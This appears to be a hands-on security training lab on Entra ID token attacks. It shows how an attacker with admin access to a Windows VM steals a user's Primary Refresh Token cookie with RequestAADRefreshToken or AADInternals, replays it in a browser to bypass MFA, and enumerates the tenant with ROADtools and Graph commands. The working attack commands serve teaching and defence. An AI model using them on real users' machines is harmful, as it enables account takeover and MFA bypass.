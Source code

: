 # Lab 3 - Token Attacks
### Prepare a victim user with high privileges: 
1. RDP and login to the Win11 VM using the "***YOURUSER@YOURDOMAIN.onmicrosoft.com***" "victim" user that you've created in the previous lab.
2. run ```dsregcmd /status``` and make sure you see ```AzureAdPrt : YES```
    ![prt](prtexists.png)

#
# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM 

#
## 1.Steal-the-PRT-Cookie 
Note: This method will bypass MFA only if the user has authenticated using MFA in its Windows (open Edge and Turn on profile "sync", go to the windows account settings on Windows and make sure it doesn't need to get verified)

#### Option 1: using RequestAADRefreshToken.exe tool
Use the MicrosoftAccountTokenProvider DLL to request a new PRT cookie:
Run RequestAADRefreshToken.exe from this folder, it will save the output on disk as well as print it to the console
Note: PRT Cookie can only be used once and its TTL is short
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```
#### Once PRT Cookie is in your possession:
1. Clear your browser cookies and go to https://login.microsoftonline.com/login.srf
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete all cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token(JWT) in the `Data` field that RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://login.microsoftonline.com/login.srf again) and you'll be logged it

Reference: https://github.com/leechristensen/RequestAADRefreshToken, https://posts.specterops.io/requesting-azure-ad-request-tokens-on-azure-ad-joined-machines-for-browser-sso-2b0409caad30

#### Option 2: using AADInternals tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

# if you get "Authorization code not received!" error, then make sure your device is logged in to the user properly(open Edge and sync the profile, go to the windows account settings on Windows and make sure it doesn't need to get verified)
```


### Recon using roadrecon tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
# Get the nonce first
roadrecon auth --prt-init 
    # or 
    roadrecon auth --access-token eyJ0eXA... # AT for msgraph is needed
    # or
    roadrecon auth --prt-cookie <primary-refresh-token> -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2"


# Get a new PRT Cookie
.\ROADtoken.exe <nonce> 

# using the new PRT Cookie, ask for an access token
roadtx browserprtauth --prt-cookie <cookie> -url

# look at the access token
type .roadtools_auth

# bonus: search for the client_id here to see to what it has asked At for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

roadrecon gather

roadrecon gui
```

Continue your exploration...

```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894" 
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```

